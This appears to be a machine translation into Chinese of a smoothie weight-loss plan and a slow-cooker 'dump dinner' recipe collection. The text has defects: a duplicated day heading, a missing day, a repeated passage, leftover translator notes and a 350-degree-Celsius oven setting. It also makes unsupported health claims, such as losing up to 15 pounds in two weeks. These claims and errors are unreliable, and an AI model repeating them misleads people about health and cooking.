- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤肉和蔬菜

## 第十天

- 早餐：水果奶昔
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：奖励自己一份你喜欢的餐

## 第十天

- 早餐：清爽的黄瓜菠萝
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤土豆配沙拉

## 第十二天

- 早餐：蓝莓桃子
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：低脂千层面

## 第十三天

- 早餐：香蕉、芒果和奇异猴
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：鸡肉沙拉或低脂意大利面

## 第十四天

- 早餐：绿薄荷草莓
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤肉和蔬菜

恭喜你，已经完成了奶昔计划的第14天！你可能精力更充沛了，睡眠也更好。也许你的排便更顺畅了，而且可能也减轻了一些体重！

既然你已经坚持了这么，为什么不奖励自己一下呢？不非要是与食物相关的奖励，只要能让你感觉好就好！

如你所见，享受非常美味的奶昔有很多尝试空间。我的建议是在早晨制作奶昔，这样它们很新鲜，但如果你没有时间，也可以一直在前一天晚上做好。尽快饮用剩余的奶昔。我喜欢在第二天上班时享用剩余，因为这样可以增加一些多样性，而且没有任何浪费。

## 一点小建议

并不是每个人都喜欢早餐，有些人更倾向于不吃，因为他们认为没有时间。跳过早餐的麻烦在于它不能加速你的代谢，而吃早餐可以。这意味着如果你跳过早餐，身体并不会像吃了早餐那样运作。

尝试吃早餐，否则可能会增加体重，因为吃早餐会让你健康。

## 第 4 章：绿色奶昔食谱

绿色奶昔对你非常有益，因为它们通常含有非常健康的成分。如果你不确定是否喝绿色的东西，为什么不尝试加一些绿色食材呢？很多人尝试避免绿色奶昔，因为它们看起来并不好，但味道很棒。

## 凉爽黄瓜奶昔

配料：
- 1 根黄瓜
- 一根芹菜
- 半个柠檬（去皮）
- 4 萝卜

将所有食材放入榨汁机，直到光滑。

## 菠菜香菜奶昔

配料：
- 1 个大西红柿
- 半杯菠菜
- 半根甜椒
- 一根芹菜
- 2 根香菜
- 四分之一个洋葱（最好是小的）
- 半根萝卜
- 少许柠檬汁

将所有食材放入榨汁机，如果还有空间，加入水，直到光滑。

## 苹果小白油菜奶昔

配料：
- 1 个苹果（去核）
- 2 棵小白油菜
- 半个柠檬的汁
- 1 杯椰子水

将食材放入榨汁机直到光滑。

## 羽衣甘、菠菜和椰子奶昔

配料：
- 一一把羽衣甘
- 一一把菜
- 半杯椰子油
- 2 汤匙奇亚籽
- 1 个橙子
- 4 颗草莓

将食材放入榨汁机直到光滑。

## 萝卜黄瓜奶昔

配料：
- 2 根萝卜，切块
- 半根黄瓜，切块
- 四分之一杯糖
- 一个去皮橙子
- 半杯水
- 一茶匙柠檬汁

将萝卜、黄瓜、橙子和水放入榨汁机，榨汁，然后加入糖和柠檬汁。再次榨汁。

## 菠菜麻籽香蕉奶昔

配料：
- 半杯菠菜
- 1 根切块的香蕉
- 一茶匙麻籽
- 1 根萝卜
- 5 茶匙南瓜籽
- 1 个橙子

将食材放入榨汁机直到光滑。

## 黄瓜辣椒奶昔

- 1 根黄瓜
- 一茶匙柠檬汁
- 3 片薄荷叶
- 半根辣椒

将除柠檬汁外的所有食材放入榨汁机，直到光滑。倒入杯中并加入柠檬汁，即可。

# 黄瓜菠萝奶昔

食材：

- 1/4 根黄瓜
- 1/4 个柠檬
- 1 大大块菠萝
- 半个大红苹果

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 黄瓜、青柠和西瓜奶昔

- 2根黄瓜
- 1个青柠汁
- 1/4个西瓜

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

根据你使用的奶昔机或榨汁机类型，你可能需要先将食材切碎。这样做是为了确保不会损坏刀片，和/或确保你的奶昔尽可能光滑。

承认，有些绿色奶昔食谱可能需要一点时间适应。如果你不喜欢绿色蔬菜，那么可能想慢慢将它们引入到你的日常生活中。并不是所有人都喝绿色奶昔，有些人甚至完全避开它们。

# 第 5 章：柑橘类奶昔食谱

如果你更喜欢柑橘类的味道，你将会喜欢这些柑橘类奶昔食谱。如果你觉得味道有点太酸，加少许糖或低热量甜味剂可以为你消除酸味。

# 橙子生姜奶昔

食材：

- 1个橙子
- 半汤匙姜末生姜
- 1 汤匙枫糖浆
- 1/4 杯胡萝卜汁
- 半杯牛奶
- 1/4 杯酸奶奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 草莓香蕉奶昔

食材：

- 半杯草莓
- 1根香蕉
- 1 杯牛奶
- 一小撮肉桂粉
- 1 汤匙枫糖浆

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 桃子蓝莓奶昔

食材：

- 1.5 杯桃子
- 半杯蓝莓
- 3/4 杯牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 莓果盛宴奶昔

食材：

- 一杯蓝莓
- 1根香蕉
- 一少许肉桂粉
- 1 茶匙可可粉
- 半杯菠菜
- 半杯芒果
- 足够填满顶部的牛奶

将固体食材榨汁直至光滑，然后加入牛奶，再次榨汁。将奶昔倒入杯中即可享。

# 橙子、柚子和菠菜奶昔

食材：

- 1个橙子
- 1/4个柚子
- 半杯菠菜
- 一小把树莓
- 1 汤匙奇亚籽
- 3颗草莓

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 菠萝、西兰花和梨奶昔

食材：

- 半杯菠萝块
- 半杯西兰花
- 1个梨
- 足够填满顶部的水

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 芒果、奇异果和香蕉奶昔

食材：

- 一杯切块的芒果
- 1个奇异果（去皮）
- 1根香蕉
- 2 杯原味酸奶
- 1 杯切块菠萝
- 一杯冰块

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 奇异果香蕉能量增强奶昔

食材：

- 3个奇异果
- 1根香蕉
- 一小把菠菜
- 一杯牛奶
- 一杯大麻籽
- 1 茶匙葵花籽

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 蓝莓、草莓和香蕉奶昔

食材：

- 一杯蓝莓
- 4颗草莓
- 1根香蕉
- 一小把菠菜
- 一杯牛奶
- 2 汤匙奇亚籽

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 草莓、薄荷和菠菜奶昔

食材：

- 5颗草莓
- 1 茶匙薄荷
- 一杯菠菜
- 一杯水
- 2 杯牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。上述某些食谱比较稠，如果需要，请确保添加额外的的水。或者，你可能想添加一些果汁来增加额外的口感，或者只需确保水果的多样性。如果你发现你的奶昔很稠，请将其搅拌均匀。这有助于你感到更持久的饱腹。

# 第 6 章：甜味奶昔食谱

以下奶昔食谱非常适合喜欢甜食或想奖励自己的人。下方的食谱的脂肪含量并不高，但它们和其他奶昔一样可以帮助你减肥。如果你有喜欢甜食的孩子，但又想鼓励他们偶尔食用奶昔，让他们习惯食用美味的果蔬菜。

# 巧克力杏仁菠菜奶昔

食材：

- 1 汤匙无糖可可粉
- 1.5 杯杏仁奶
- 一小把菠菜
- 2颗草莓
- 1根香蕉
- 1 汤匙亚麻籽

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 巧克力香草奶昔

食材：

- 15-20 克巧克力碎片
- 1 汤匙香草精
- 半杯酸奶（最好是希腊酸奶）
- 1 汤匙大麻籽

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 花生酱香蕉奶昔

食材：

- 半杯花生酱
- 1 茶匙可可粉
- 半杯脱脂牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 巧克力蓝莓草莓奶昔

食材：

- 2 茶匙可可粉
- 6颗草莓
- 一小把菠菜
- 1/4 杯蓝莓
- 1.5 杯牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 椰子香蕉巧克力奶昔

食材：

- 1 茶匙新鲜或干椰子
- 1根香蕉
- 1 茶匙可可粉
- 一小把菠菜
- 一杯椰子水
- 杏仁

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 橙子和柠檬奶昔

- 1个橙子
- 1/2个柚子
- 1 汤匙柠檬汁
- 半杯香草酸奶
- 半汤汤匙奇亚籽
- 1 汤匙蜂蜜
- 一杯牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 苹果肉桂奶昔

食材：

- 1个苹果
- 1个梨
- 一少许肉桂粉
- 一杯牛奶

将食材榨汁直至光滑。将奶昔倒入杯中即可享。

# 巧克力草莓奶昔

食材：

- 1 茶匙可可粉
- 2 杯牛奶
- 4-6颗草莓

（原文此处不完整）

请不要害怕尝试食谱想法。上述食谱只是为了让你开始，但你可以根据自己的喜好进行调整。从头制作自己的奶昔，并尝试不同的牛奶、不同口味的酸奶以及任何你能想到的其他食材。

记住，组成甜味奶昔的一些成分可能会导致肥胖（例如花生酱）。这就是为什么不要经常食用它们的原因。如果你决定经常喝甜味奶昔，请选择低热量和低脂肪的成分。这将让你更有可能减肥，这也是本奶昔计划的目的。好消息是市场上有很多美味的低热量低脂肪产品，所以你在享受甜味奶昔时无需妥协口感。

# 第 7 章：提示与技巧

开始一个新的饮食计划从不容易的，但不得不说，这个特定的计划很可能是你过的最简单的一个。在执行此计划时，完全没有理由感到饥饿。你摄入的蔬菜中的纤维可能会让你感到饱腹。

如果你坚持这个计划，你将在两周内减轻多达 15 磅。此外，你的精力更充沛，皮肤也可能看起来更好。尽管这 14 天奶昔

这个计划并不难，你可能会发现一些提示和技巧来帮助你一得顺：

## 关于牛奶的说明

如果你像我一样乳糖不耐受，你可能不想摄牛奶。好消息是，现在有很多替代品。请改用豆浆、杏仁奶、椰奶或大米奶。我个人选择甜豆浆，因为它比无糖豆浆更好喝，而且使用苹果汁作为甜味剂而不是糖。

## 水

请确保在整个奶昔计划期间保持水分充足。水不仅能解你的渴，还能作为抗氧化剂帮助排出毒素。多喝水还能缓解压力，并可能帮助你减肥。每天享用 8 杯这种好水，让皮肤看起来更健康，晚上也能睡得更好。

## 运动

通过这个计划，你可能会减肥，同时提升能量水平。但如果你在每天中加入运动，你会发现效果会更加显著。你不需要增加很多运动，事实上，为了减肥，你甚至不需要比现在多运动。只需要知道，稍微运动一下将有助于你所追求的减肥效果。

## 把那些奶昔冷藏

为了最大限度地保持奶昔的新鲜和质量，你应该尽快冷藏你的奶昔。我知道你们中有些人可能会把它们带去上班，在去办公室的途中可能会变温，但到达那里后请将它们放入冰箱。

如果你有任何剩余，也请把它们冷藏，并尝试尽快食用。本电子书中的所有奶昔都应该保持 2 天的新鲜，但如果存放时间过长，可能会开始变质。

## 记录下你自己制作的奶昔

虽然你可能乐意使用本书中提供的食谱，但你可能也想尝试自己自己的。你能做的最好的事情之一就是记录下你自己制作的奶昔。你可能会发明出非常有营养且美味美味的配方，如果不写下来就太可惜了。把它记录下来，这样你可以在另一天再次享受。

## 起初减肥很快

每当有人开始新的减肥或饮食计划时，他们往往会在短时间内减轻相当的体重。这是自然现象，但并不是持续的。随着时间的推移，你减轻的体重不会像刚开始时那么多。我知道这可能令人沮丧，但事实就是如此。你的减肥速度会减慢，但这并不意味着你不会再瘦了。

坚持下去，即使你看起来没有在继续减肥，它可能也正在产生好处。

## 如果你想再次执行该计划

有些人喜欢多次执行这项 14 天奶昔计划。虽然这是一种有效且愉快的减肥方式，但你可能希望花几周时间回到正常的饮食模式。我必须补充的是，在这几周里，如果你摄入了大量的脂肪、糖和盐，你可能需要吃健康的均衡饮食，而不是回到旧的习惯。

一旦你坚持了几周的健康均衡饮食，请再次尝试 14 天奶昔计划。

如果你决定坚持该计划超过 14 天，请确保你正在吃正规的餐点，并且饮食是健康的。

## 结论

再次感谢你下载这本书！

我希望这本书能够帮助你在短短 14 天内减肥并提高能量水平。

下一步是去购买食材，这样你就可以享用营养丰富又美味的奶昔了。

最后，如果你喜欢这本书，我想请你帮个忙，你是否愿意在亚马逊上为这本书留个评价呢？我将不胜感激！

点击此处在亚马逊上为本书留评！

感谢你并祝你好运！

## 14 天“一锅出锅”晚餐食谱

快速简易“一锅出”晚餐食谱

**关于我最喜欢的饮食的额外信息**

*在 [KindleBookSpot.com](http://KindleBookSpot.com) 获取更多免费和超廉价书籍*

## 目录

- 引言
- 第 1 天
    - 鸡肉砂锅
- 第 2 天
    - 俄式杏桃鸡肉
- 第 3 天
    - 鸡肉莎莎
- 第 4 天
    - 俄式牛肉
- 第 5 天
    - 奶酪牛肉西兰花
- 第 6 天
    - 牛仔鸡
- 第 7 天
    - 意大利面饺烘烤
- 第 8 天
    - 夏威夷鸡肉
- 第 9 天
    - 墨西哥鸡肉千层
- 第 10 天
    - Frito 辣椒派
- 第 11 天
    - 匈牙利肉汤
- 第 12 天
    - 烤牛肉
- 第 13 天
    - 黄金鸡面
- 第 14 天
    - 牧场鸡肉
- 结论

## 引言

我们生活在一个忙碌的世界里，很少有时间在厨房里做些好吃的。我们都渴望美味的自制晚餐，但遗憾的是，只有少数人能从忙碌的日程中抽出时间来准备耗时的菜肴。但如果你能用最少的努力吃上一顿美味的大餐呢？这就是这些“一锅出（dump dinner）”食谱大显身手的地方。这些食谱是为那些不想在厨房花费几个小时仍想吃健康高质量食物的忙碌人士设计的。在书中，你将发现各种易操作的食谱，大部分只需将食材放入锅中即可。这些食物非常适合工作日、家庭聚会，或任何你需要快速慰藉方案的时刻。

## 第 1 天

我们知道每天决定晚餐吃什么是压力很大的。我们也知道站在厨房里制作美味晚餐有多困难。在工作表现良好的同时，还要用疲惫的身体做出好的晚餐往往很困难。因此，在第 1 天，我们为你推荐了一个简单美味且不需要太多精力的食谱。

## 鸡肉砂锅

我们为你提供的第一个食谱是鸡肉砂锅。这道菜超级简单，而且它的味道和美味程度会让你大吃一。鸡肉非常好做，涉及的食材在家里很容易找到。这道菜需要米饭，混合鸡肉、蛋黄酱和其他奶油类食材，会让菜肴看起来非常有食欲。你只需要混合所有食材，将其放入烤箱即可。这个食谱非常适合那些没有时间做晚餐但又想在家里吃点美味令人口涎的日子。

制作这道简单的菜你需要：

- 奶油鸡汤：1 罐
- 熟鸡肉，最好是烤鸡肉：3 杯
- 熟米饭：3 杯
- 切片杏仁：半 杯
- 西芹：3/4 杯并切丁
- 蛋黄酱：半 杯
- 玉米片：约 3/4 杯
- 融化的黄油：2 汤匙

# 方法：

取一个烤盘，放入上述所有食材。充分混合并在顶部撒上玉米片以增加脆度。你也可以在顶部加入黄油以获得更好口感。混合好食材后，只需将其放入

预热烤箱（350度），然后放松心情。这道超级简单的菜大约需要40分钟就能准备好供你享用。当砂锅里的符合你的口味和偏好时将其取出。出炉后，尽情享受美味美味的鸡肉吧。听起来很容易，对吧？每当你想要在家里吃一顿美味又省事的晚餐时，做这道菜吧。

## 第二天

对于第二天，我们推荐了一道更简单的食谱。这道简单的食谱是俄罗斯杏肉鸡，它不仅口味令人垂欲滴、吸引人，而且制作非常简单快捷。这道食谱最棒的部分在于你所需的食材数量。你可能很难相信，只需四种简单的食材就能创造出一道超级美味的菜。极少的食材加上更短的烹饪时间让这道菜成为了常青。这道菜深受那些想吃美味美味晚餐但没有足够时间制作复杂菜肴的女性的喜爱。

# 俄罗斯杏肉鸡

和上一个食谱一样，你只需要将所有食材混合均匀，然后让锅炉完成工作即可。这是一道慢炖食谱，因此慢炖需要大约8小时才能完全煮熟鸡肉。对你们某些人来说这可能是一个很长时间，但可以在晚上开始做，这样你晚上就能有一顿美味的晚餐。在此期间，你可以完成所有的家务、外出购物、享受夜晚、做一些办公工作或只是睡午觉。

以下是制作这道超级简单菜的四种食材：

- 无骨鸡胸肉：约2磅
- 杏果酱：1罐或12盎司
- 洋葱：½个并切碎
- 俄罗斯沙拉：1瓶

# 方法：

制作这道菜，你需要在一个碗里将杏果酱、俄罗斯沙拉和洋葱混合几分钟。下一步只需简单地将鸡肉放入锅中，并将杏果混合物淋在上面。这就是制作这道菜你需要的一切。一旦食材进入锅中，就可以放松并完成8小时的家务，然后享受美味滋滋作响的晚餐。慢炖锅配合杏果混合物会让鸡肉变得非常多汁美味。鸡肉熟好后，你可以搭配米饭或土豆泥享用。如果你想要鸡肉更辣、更美味，可以在杏果混合物中加入一些香料。简而言之，这道菜是你们所有忙碌的美味人的必备之选。

## 第三天

虽然之前的食谱包含四种食材，但第三天的食谱更加简单快捷。这道食谱是鸡肉莎酱酱，它只需要两种食材和一个压力锅。所以，如果你有超级忙的一天，无法花大约8小时做任何额外工作，又非常渴望美味的晚餐，只需在出门上班前做好这道食谱，然后回来享受美味的莎酱肉美味鸡肉。也不用担心准备时间。这道菜准备只需要不到十分钟，之后你只需要将其放入锅中即可。

# 鸡肉莎酱

我们都喜欢鸡肉，也都喜欢莎酱。想象一下如果把这两种美味的食材结合在一起会是一道多么完美的菜。这就是你的鸡肉莎酱——它结合了鸡肉的多汁和莎酱的焦香，创造出一道令人无法抗拒的菜。这道菜最棒的地方在于制作非常容易。你只需要在慢炖锅中将食材混合在一起，晚餐就好了。

以下是制作这道超级简单菜所需的两种主要食材：

- 无骨鸡胸肉：4块
- 你喜欢的莎酱：2杯

# 方法：

方法也相当简单。你只需要将鸡肉放入锅中，用你喜欢的莎酱完全覆盖它。如果你很长时间没有空吃饭，就在慢炖锅中烹饪8小时。否则，可以使用普通的压力锅烹饪，大约需要4小时完全煮好这道菜。检查菜是否煮熟的一种方法是看你是否可以轻松撕碎鸡肉。如果它变得软到容易撕碎，撕碎鸡肉，加入一些香料、盐和胡椒，然后享受美味的晚餐。你也可以将这道菜冷存在密封容器中，以便在那些完全无法做饭的日子使用。这道菜大约有6杯，还可以

## 第五天

你喜欢尝试各种菜系但又忙得没机会尝试吗？你因为行程很忙，只喜欢在餐厅吃中餐和意大利菜，而在家里不吃？如果是这样，你就不再需要出门享受美味的餐点了。我们为你有一道非常简单的食谱，准备它几乎只需要你几分钟的时间。这道食谱是芝士牛肉西西兰，既令人垂欲滴，制作又极快。

# 芝士牛肉西西兰

和书中到为止提到的所有食谱一样，这道食谱以准备简单而闻名。你不需要在厨房里花费几个小时为家人准备一道美味的中餐，因为这道食谱只需要你将所有食材倒入锅中，让锅炉完成工作即可。你只需要花一点时间对菜进行最后的点缀。让我们看看怎么做。

制作这道菜，你需要以下食材：

- 牛肩肉：1磅
- 牛肉汤：约1杯
- 酱油：½杯
- 芝麻油：1汤匙
- 红糖：1/3杯
- 蒜末：3瓣
- 西西兰花：2杯
- 水：2汤匙
- 玉粉：2汤匙
- 熟饭或炒饭：根据需要量

# 方法：

虽然食材列表看起来很长，但烹饪方法相当简单。第一步是将牛肉与芝麻油、大蒜、红糖和酱油放入锅中搅拌。然后加入牛肉再次搅拌。下一步是让食材在锅中慢炖大约6小时，之后你必须加入水和淀粉，让菜再煮一小时，这样酱汁才恰好。最后只需加入西西兰花，煮几分钟，最后搭配米饭享受这道美味的中餐。这道菜在开始只需要几分钟，最后也只需要几分钟在
烹饪时间结束。中间这段时间你可以用来放松并完成你未完成的工作。

## 第 6 天

下一个食谱也相当简单。这是一道风味丰富且食材易于获得的美味菜肴。这道菜被称为“牛仔鸡”（cowboy chicken），你会发现制作它是如此简单。这道食谱也适合那些忙碌 6 到 7 小时、没有时间在厨房为家人准备一顿美味晚餐的日子。但有了像牛仔鸡这样的食谱，你再也不用担心晚餐了。

## 牛仔鸡

这道菜谱被称为“投入即煮”菜谱，因为你只需要将食材倒入锅中，让锅具完成烹饪即可。这道菜还含有大量的西南风味，所以如果你在家尝试这顿晚餐，将会享受到与众又美味的食物。看下方的方法，用这道美味又简单的食谱给你的家人一个惊喜吧。

以下是这道菜所需的食材：

- 西南味三味调鸡肉
- Ro-Tel 番茄：2 罐
- 黑豆：1 罐
- 墨西哥玉米：1 罐

### 方法：

制作这道菜的方法极其简单且毫不痛苦。你只需要将四种食材加入锅中，让菜肴烹煮 6 小时即可。此此！不需要准备工作，也不需要最后的装饰。这道菜几乎不会占用你忙碌日程中的几分钟，你和你的家人会喜欢这道菜的味道以及制作它的便利。只需在加入之前确保将豆子和 Ro-Tel 洗净并晾干。

这道超级简单的食谱深受所有忙碌人的喜爱，他们无法抑制每隔几天就重复制作这道菜。所以，你今晚要尝试这道简单的食谱吗？

## 第 7 天

我们都喜欢每天吃上美味的晚餐。遗憾的是，我们大多数人都忙于工作和其他家务，没有足够的时间待在厨房里为家人准备一顿美味的大餐。在日程紧凑的日子里，即使在厨房里花一小时做点好吃的都是是不可能的。但是，如果能花最少的精力和最短的时间准备好一份口垂欲滴的晚餐，你难道不喜欢吗？我们都希望每天都有这样的晚餐，特别是在我们没有时间做饭的日子。我们提供的下一个食谱以其制作简单和味道好而闻名。你会喜欢这道菜在几分钟内就能做好，而无需在厨房里花费几个小时的事实。这道菜是“意大利饺饨焗”（Tortellini Bake）。

## 意大利饺饨焗

意大利饺饨焗基本上是一种美味的意大利面面砂锅，深受大多数忙碌人的喜爱。它充满了丰富的风味，会驱使你一次又制作并食用。这道菜可以供大约 6 人食用，几乎只需要 10 分钟的烹时间和 10 分钟的准备时间。20 分钟内，你就能享用到一份美味的晚餐。让我们来看看在家制作这道菜所需的食材：

- 意大利饺子：9 盎司或一包你选择的任何口味
- 帕玛森芝士：3 汤匙，碎屑
- 莫扎拉芝士：约 1 半杯，丝丝状
- 意面酱：约 2 杯
- 欧芹

### 方法：

第一步是根据包装上的说明准备意大利饺子。这几乎只需要 10 分钟。意大利饺子准备好，你只需要在里面加入意面酱，然后将裹满酱汁的意大利饺子放入烘焙盘。在意大利饺子顶部撒上莫扎拉芝士和帕玛森芝士以完全覆盖。将烤箱预热至 350 摄氏度，然后让意大利饺子在烤箱中烘烤，直到芝士呈微褐色。菜出炉后，你可以在顶部撒一些欧芹。因此，在短短不到 20 分钟内，一道美味的菜就能做好给你吃了。

## 第 8 天

对于第 8 天，让我们尝试一些不同的。到目前你可能已经对之前介绍的相似菜感到厌了。因此，本章重点介绍一种大多数人喜爱且仍然易于制作的。本章将介绍夏威夷菜，为所有的美食爱好者带来丰富且不同的风味。这道菜和之前所有的菜一样，非常简单易做，几乎只会占用你 15 分钟的时间。我们相信你会喜欢这道菜制作的轻松以及它提供的多种风味。这道菜是“夏威夷鸡”。

## 夏威夷鸡

夏威夷鸡基本上是一个慢炖食谱，这意味着它大约需要 5 小时才能准备好。在此期间，你可以睡午觉、出去购物或简单地完成你所有的任务。这道菜著名的地方在于它包含了多种食材，从菠萝到橙子，再到生姜和酱油。风味的多样性不仅增加了菜的丰富度，还让这道菜看起来非常有吸引力。这道菜可供大约 7 人食用，需要以下食材：

- 鸡胸：大约 6 块
- 小橘：1 罐或 15 盎司
- 菠萝片：1 罐或 16 盎司
- 红糖：半杯
- 玉米粉：1/4 杯
- 生抽：半杯
- 柠檬汁：1/4 杯
- 姜粉：约 1 茶匙

### 方法：

要准备酱汁，你必须混合除鸡肉、菠萝和橙子以外的所有上述食材。充分搅拌酱汁，使食材混合均匀。酱汁准备好后，将鸡肉放入锅中淋上酱汁。这道菜著名的部分在于它包含了多种食材……风味的多样性不仅增加了菜的丰富度，还让这道菜看起来非常有吸引力。这道菜可供大约 7 人食用，需要以下食材：
- 鸡胸：大约 6 块
- 小橘：1 罐或 15 盎司
- 菠萝片：1 罐或 16 盎司
- 红糖：半杯
- 玉米粉：1/4 杯
- 生抽：半杯
- 柠檬汁：1/4 杯
- 姜粉：约 1 茶匙

（注：此处为了保持逻辑连贯，修正了原文中重复的段落翻译，实际按逻辑翻译如下）：

要准备酱汁，你必须混合除鸡肉、菠萝和橙子以外的所有上述食材。充分搅拌酱汁，使食材混合均匀。酱汁准备好后，将鸡肉放入锅中淋上酱汁。接下来的步骤是在顶部加入菠萝和橙子，让锅具低火慢炖 5 小时。5 小时后，你就可以配米饭享用这道美味的晚餐了。因此你不再需要去昂贵的餐厅享用像夏威夷鸡一样的美味菜，家里只需 15 分钟的准备时间。

## 第 9 天

下一个食谱再次是一道非常简单又美味的菜。这是一道你通常在家享用的菜，但我们通过一些小改变将其呈现给你。这道菜最棒的部分在于你不需要花费太多精力制作。这道菜准备好只需要 30 分钟。这道菜充满了风味，深受所有家人的喜爱，尤其是青少年。这道菜是“墨西哥鸡意大利式焗”。

## 墨西哥鸡意大利式焗

墨西哥鸡意大利式焗基本上是另一种形式的意大利饼。然而，这个版本的意大利饼非常简单而且比原版好吃。这个食谱仅涉及四个简单的步骤。你需要将所有食材倒在一起混合均匀，分层然后烘烤。虽然下面的食材看起来很多，但这些食材会为整道菜带来美味的味道。让我们来看看食材有哪些：

- 鸡肉：3 或 4 杯，切碎煮熟
- 费斯塔风味芝士：1 罐
- 鸡肉汤：1 罐
- Ro-Tel 番茄：1 罐
- 孜然：1 茶匙
- 香菜：约 1/4 杯，切碎
- 玉米粒：1 杯
- 黑豆：1 罐
- 墨西哥混合芝士：2 杯，丝丝状
- 腌渍墨西哥辣椒片：用于装饰
- 酸奶油：用于装饰
- 柠檬角：用于装饰

### 方法：

第一步是混合鸡肉、汤、芝士、香菜和番茄来准备馅料。下一步只是简单地将混合物和其他食材分层放入烘焙盘中。你可以在这里完全发挥创意，如果喜欢的话添加不同的食材。创意地分层食材，让菜肴最后看起来非常有吸引力。用铝箔覆盖菜肴，然后将其放入预热至 350 华氏度的烤箱中烤 20 分钟。20 分钟后，取下铝箔，让菜肴再烘烤 10 分钟。因此，在不需要工作的 30 分钟内，你就能获得一份美味的晚餐。

## 第 10 天

世界上很多人认为牛肉菜很无聊且美味。你现在可能已经对之前介绍的相似菜感到无味了。因此，如果你也属于这一类，请阅读第 10 天的菜谱，因为我们为你提供了一道非常美味的牛肉菜。这道菜具有丰富的风味，你会爱上每一口。这道菜被称为“玉米片辣酱饼”（Frito Chili Pie），它将通过提供美味的晚餐并节省时间来帮助你完成当天的任务。

# 弗里托辣椒派 (Frito Chili Pie)

弗里托辣椒派是一道简易的牛肉食谱，含有许多食材来丰富风味。一旦你吃过这道菜，你就会爱上它既简单又美味的特点。制作这道菜，你不需要做任何苦力活，因为锅会在 8 小时内为你煮好。在此期间，你可以做任何你想做的事，而无需担心为家人准备晚晚餐。以下是制作这道菜所需的原料：

- 牛肉：1 ½ 磅
- 番茄酱：8 盎司
- 大蒜：3 ，切末
- Ro-Tel（辣椒番茄）：1 罐
- 番茄：15 盎司或 1 罐，切丁
- 盐：半茶匙
- 孜然粉：1 汤匙
- 牛至香：1 茶匙
- 辣椒粉：1 或 2 汤匙
- 烟熏辣椒塔巴斯烤酱：1 汤匙
- 红豆和斑豆：各 1 罐或各 14 盎司
- 玉米粉：1/4 杯
- 水：半杯
- 弗里托玉米片 (Fritos)：1 包

# 方法：

尽管食材清单相当长，但方法非常简单。第一步是在锅中烹饪牛肉直到其变褐，滤出牛肉水分后加入大蒜。混合 2 分钟后，将食材转移到慢炖锅中，加入玉米粉、弗里托玉米片和水以外的其余食材。慢炖锅大约需要 8 小时来煮好，但在烹饪结束前 30 分钟，你可以向菜中加入水和玉米粉。菜做好后，撒上切达奶酪、弗里托玉米片和酸奶油等食材进行装饰。

# 第 11 天

第 11 天，尝试一些传统而不同的东西。这一天，我们建议你尝试匈牙利炖肉汤 (Hungarian goulash)，这是一道为你家人准备的传统且美味的晚餐。这道菜有很多传统风味，你的味蕾会喜欢这种对普通鸡肉牛肉晚餐的改变。这道菜最棒的部分是它大约需要 10 小时才能完成。因此在晚餐准备好之前，你有充足的时间完成所有的家务。一旦你尝试了这道菜，你一定会爱上它。

# 匈牙利炖肉汤

匈牙利炖肉汤是一道以美味和易于烹饪而闻名的老菜。这道菜有很多食材，但准备起来仍然简单。你只需要将所有食材倒入锅中，让锅在 10 小时内发挥魔法即可。这道菜最适合在你超级忙碌没有额外时间烹饪美味大餐的日子。让我们来看看所需的原料：

- 炖肉用：2 磅，切块
- 大蒜：1 瓣，应切末
- 切片洋葱：1 个
- 伍斯特酱汁：2 汤匙
- 番茄酱：半杯
- 红辣椒粉和盐：各 2 茶匙
- 红糖：1 汤匙
- 水：1 杯
- 面粉：半杯
- 芥末粉：半茶匙，干粉

# 方法：

第一步是将除洋葱和肉以外的所有食材混合成混合物。然后你需要将肉、面粉和洋葱放入锅中，并将混合物倒在上面。最后一步只需盖上锅盖，在肉准备好之前放松 10 小时。10 小时后，用少量水溶解面粉并加入肉中。再煮 15 分钟，你的菜就做好了。你可以搭配面条或米饭享受这道菜。

# 第 12 天

第 12 天，我们为你提供了最简单的食谱之一。这个食谱从字面上来说是“倒进去就走 (dump-and-go)”，因为你只需要将所有食材倒入慢炖锅中，用低火煮 6 到 8 小时。这道菜不仅制作简单，味道也非常吸引人。尽管是在慢炖锅中烹饪的，但你也会喜欢它提供的风味。这道菜是一道简单的烤牛肉，让你欲罢不能。

# 烤牛肉

这个烤牛肉食谱以其味道好和易于烹饪而闻名。完成后，它会为你提供大量的肉汁，所以不要期望这道菜是完全干燥无味的。你也可以搭配土豆泥一起享，因为土豆会进一步增强这道菜的味道。以下是制作这道菜所需的原料：

- 肩肉：4 磅
- 蘑菇汤：1 罐
- 土豆汤：2 罐
- 洋葱汤调料包：1 包
- 博士可乐 (Dr. Pepper)：2 杯
- 奶油风味调料 (Creole)：约 1 茶匙调

# 方法：

方法极其简单。你只需要在慢炖锅中混合所有食材，然后忘记晚餐 6 到 8 小时。慢炖锅将低火烹饪，在你忙碌了一天回到家里后，它将为你带来一道令人垂涎的菜。

# 第 13 天

